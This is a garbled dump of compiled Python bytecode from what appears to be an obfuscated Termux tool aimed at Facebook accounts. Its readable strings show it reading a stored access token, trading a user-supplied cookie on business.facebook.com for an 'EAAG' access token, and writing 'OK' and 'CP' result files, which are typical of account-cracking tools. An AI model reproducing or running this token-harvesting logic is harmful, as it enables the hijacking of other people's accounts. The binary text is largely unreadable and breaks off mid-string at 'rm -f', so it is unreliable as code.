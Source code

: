 Safari/537.36z\x08/sdcard/z\x03\x1b[mz\x05\x1b[93mz\x07\x1b[1;92mz\x05\x1b[32mz\x05\x1b[95mz\x05\x1b[33mz\x07\x1b[1;96mz\x07\x1b[0;34mZ\x07JanuaryZ\x08FebruaryZ\x05MarchZ\x05AprilZ\x03MayZ\x04JuneZ\x04JulyZ\x07AgustusZ\tSeptemberZ\x07OctoberZ\x08NovemberZ\x08December)\x0c\xda\x011\xda\x012\xda\x013\xda\x014\xda\x015\xda\x016\xda\x017\xda\x018\xda\x019\xda\x0210\xda\x0211\xda\x0212)\x0c\xda\x0201\xda\x0202\xda\x0203\xda\x0204\xda\x0205Z\x0206Z\x0207Z\x0208Z\x0209r\'\x00\x00\x00r(\x00\x00\x00r)\x00\x00\x00z\x03OK-\xfa\x01-z\x04.txtz\x03CP-c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s\x0e\x00\x00\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00d\x00S\x00)\x02N\xda\x05clear)\x02\xda\x02os\xda\x06system\xa9\x00r3\x00\x00\x00r3\x00\x00\x00\xfa\x06<code>r0\x00\x00\x00Q\x00\x00\x00s\x02\x00\x00\x00\x0e\x01r0\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00C\x00\x00\x00s\n\x00\x00\x00t\x00\x83\x00\x01\x00d\x00S\x00)\x01N)\x01\xda\x05loginr3\x00\x00\x00r3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00\xda\x04backT\x00\x00\x00s\x02\x00\x00\x00\n\x01r6\x00\x00\x00z\x05CODE-z\x06-2.0==z\x07MINHAZ-\xe9\n\x00\x00\x00\xfa1/data/data/com.termux/files/usr/bin/.mrkausar-cov\xda\x01r\xda\x01wc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00s\xa6\x00\x00\x00zEt\x00d\x01d\x02\x83\x02\xa0\x01\xa1\x00}\x00t\x02\xa0\x03|\x00\xa1\x01\x01\x00z\x10t\x04\xa0\x05d\x03t\x02d\x04\x19\x00\x17\x00\xa1\x01}\x01t\x06\x83\x00\x01\x00W\x00W\x00d\x00S\x00\x04\x00t\x07y+\x01\x00\x01\x00\x01\x00t\x08\x83\x00\x01\x00Y\x00W\x00d\x00S\x00\x04\x00t\x04j\tj\nyE\x01\x00\x01\x00\x01\x00t\x0b\x83\x00\x01\x00t\x0ct\r\x83\x01\x01\x00t\x0cd\x05\x83\x01\x01\x00t\x0e\x83\x00\x01\x00Y\x00W\x00d\x00S\x00w\x00\x04\x00t\x0fyR\x01\x00\x01\x00\x01\x00t\x08\x83\x00\x01\x00Y\x00d\x00S\x00w\x00)\x06N\xfa\n.token.txtr9\x00\x00\x00\xfa+https://graph.facebook.com/me?access_token=r\x01\x00\x00\x00\xf5\x18\x00\x00\x00 [\xc3\x97] Connection Timeout)\x10\xda\x04open\xda\x04read\xda\x07tokenku\xda\x06append\xda\x08requests\xda\x03get\xda\x0bpublic_menu\xda\x08KeyError\xda\x06Public\xda\nexceptions\xda\x0fConnectionErrorr0\x00\x00\x00r\t\x00\x00\x00\xda\x04logo\xda\x04exit\xda\x07IOError)\x02\xda\x05tokenZ\x02syr3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00r5\x00\x00\x00a\x00\x00\x00s"\x00\x00\x00\x02\x01\x0e\x01\n\x01\x02\x01\x12\x01\x0e\x01\x0c\x01\x0e\x01\x10\x01\x06\x01\x08\x01\x08\x01\x0e\x01\x02\xfc\x0c\x05\x0c\x01\x02\xffr5\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x00\x00s2\x00\x00\x00|\x00d\x01\x17\x00D\x00]\x12}\x01t\x00j\x01\xa0\x02|\x01\xa1\x01\x01\x00t\x00j\x01\xa0\x03\xa1\x00\x01\x00t\x04\xa0\x05d\x02\xa1\x01\x01\x00q\x04d\x00S\x00)\x03N\xda\x01\ng{\x14\xaeG\xe1z\x84?)\x06\xda\x03sys\xda\x06stdout\xda\x05write\xda\x05flush\xda\x04time\xda\x05sleep)\x02\xda\x01z\xda\x01er3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00\xda\x05jalanq\x00\x00\x00s\x06\x00\x00\x00\x0c\x01"\x01\x04\xffrV\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\x0c\x00\x00\x00C\x00\x00\x00s\x86\x01\x00\x00t\x00\x83\x00\x01\x00t\x01t\x02\x83\x01\x01\x00t\x01d\x01\x83\x01\x01\x00t\x03d\x02\x83\x01}\x00|\x00d\x03v\x00rat\x03d\x04\x83\x01}\x01t\x04d\x05d\x06\x83\x02\xa0\x05|\x01\xa1\x01}\x02z\x19t\x06\xa0\x07d\x07|\x01\x17\x00\xa1\x01}\x03t\x08\xa0\t|\x03j\n\xa1\x01d\x08\x19\x00}\x04t\x01d\t\x83\x01\x01\x00t\x0b\x83\x00\x01\x00W\x00d\x00S\x00\x04\x00t\x0cyN\x01\x00\x01\x00\x01\x00t\x01d\n\x83\x01\x01\x00t\r\xa0\x0ed\x0b\xa1\x01\x01\x00t\x0f\x83\x00\x01\x00Y\x00d\x00S\x00\x04\x00t\x06j\x10j\x11y`\x01\x00\x01\x00\x01\x00t\x01d\x0c\x83\x01\x01\x00t\x12\x83\x00\x01\x00Y\x00d\x00S\x00w\x00|\x00d\rv\x00r\xc1z4t\x03d\x0e\x83\x01}\x05t\x06j\x07d\x0fd\x10d\x11d\x12d\x13d\x14d\x15d\x16d\x17d\x18d\x19\x9c\td\x1a|\x05i\x01d\x1b\x8d\x03}\x06t\x13\xa0\x14d\x1c|\x06j\n\xa1\x02}\x07t\x04d\x05d\x06\x83\x02\xa0\x05|\x07\xa0\x15d\x1d\xa1\x01\xa1\x01}\x08t\x01d\t\x83\x01\x01\x00t\x0b\x83\x00\x01\x00W\x00d\x00S\x00\x04\x00t\x16y\xc0\x01\x00}\t\x01\x00z\x1bt\x17\xa0\x18d\x1e\xa1\x01\x01\x00t\x01d\n\x83\x01\x01\x00t\r\xa0\x0ed\x0b\xa1\x01\x01\x00t\x0b\x83\x00\x01\x00t\x12\x83\x00\x01\x00W\x00Y\x00d\x00}\t~\td\x00S\x00d\x00}\t~\tw\x01w\x00d\x00S\x00)\x1fNz. [01] Login With Token\n [02] Login With Cookiez\x13\n [#] Select One : \xa9\x02r\x1e\x00\x00\x00r*\x00\x00\x00z\r [+] Token : r;\x00\x00\x00r:\x00\x00\x00r<\x00\x00\x00\xda\x02idz\x15 [\x1a] Login Successfulu\x13\x00\x00\x00 [\xc3\x97] Login Failed g\x00\x00\x00\x00\x00\x00\x04@r=\x00\x00\x00\xa9\x02r\x1f\x00\x00\x00r+\x00\x00\x00z\x0e [+] Cookie : z0https://business.facebook.com/business_locationsz\x8fMozilla/5.0 (Linux; Android 12.1.0; MI 8 Build/OPM1.171019.011) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.86 Mobile Safari/537.36z\x19https://www.facebook.com/z\x15business.facebook.comz\x1dhttps://business.facebook.comr\x1e\x00\x00\x00\xfa#id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7\xfa\tmax-age=0z\xactext/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8z\x18text/html; charset=utf-8)\t\xfa\nuser-agent\xda\x07refererZ\x04host\xda\x06origin\xfa\x19upgrade-insecure-requests\xfa\x0faccept-language\xfa\rcache-control\xda\x06accept\xfa\x0ccontent-type\xda\x06cookie)\x02\xda\x07headers\xda\x07cookiesz\t(EAAG\\w+)r\x03\x00\x00\x00z\x10rm -f